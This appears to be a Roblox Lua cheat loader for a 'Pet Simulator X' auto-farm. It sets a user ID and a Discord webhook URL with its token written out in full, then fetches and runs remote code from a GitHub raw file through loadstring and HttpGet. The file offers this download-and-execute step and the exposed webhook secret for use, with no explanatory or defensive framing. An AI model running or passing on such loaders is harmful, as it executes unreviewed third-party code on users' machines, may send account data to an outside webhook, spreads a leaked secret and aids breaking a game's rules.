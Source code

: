 _G.UserID = 2978899669
_G.WebHook = "https://discord.com/api/webhooks/965716120046821457/nCAp7uDB9Qk1Y7n_5rZjkRuqQMvOCKBCyx1peae9VFsgADDygyKDdnNTgzBSJlZZLDRc"
loadstring(game:HttpGet('https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua'))()
